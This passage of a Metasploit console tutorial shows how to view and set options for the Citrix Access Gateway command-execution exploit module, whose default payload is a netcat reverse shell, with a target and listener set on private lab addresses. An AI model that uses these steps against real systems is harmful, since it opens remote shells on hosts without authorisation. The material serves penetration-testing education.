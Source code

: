 ```
Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

You can see the options for this specific `exploit(unix/webapp/citrix_access_gateway_exec)`. You can also see the options for the default Payload (`cmd/unix/reverse_netcat`) for this exploit.

I have marked all the fields with different colors. The names are marked in green color. The current setting for each option is marked in pink. All of the fields are not required for the exploit to function. Some of them are optional. The mandatory ones will be listed as `yes` in the `Required` field marked in teal. Many of the options will be already filled out by default. You can either change them or keep them unchanged.

In this example, you can see the `RHOSTS` option does not have a current setting field value in it. This is where you will have to specify the target IP address. You will learn how to set it with the next command.

### Use the set command to set a value to a variable <a href="#post-3536-_heading-h.3as4poj" id="post-3536-_heading-h.3as4poj"></a>

Set is one of the core commands of the Metasploit console. You can use this command to set context-specific values to a variable. For example, let’s try to set the target IP address for the above `RHOSTS` option field. Type in `set RHOSTS [target IP]`:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > set RHOSTS 192.168.43.111
```

```
RHOSTS => 192.168.43.111
```

Now we’ve successfully set up the value of the `RHOSTS` variable with the set command. Let’s check if it worked or not. Type in `show options`:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > show options
```

```
Module options (exploit/unix/webapp/citrix_access_gateway_exec):

   Name     Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.43.111   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443              yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐

   LHOST  192.168.74.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
```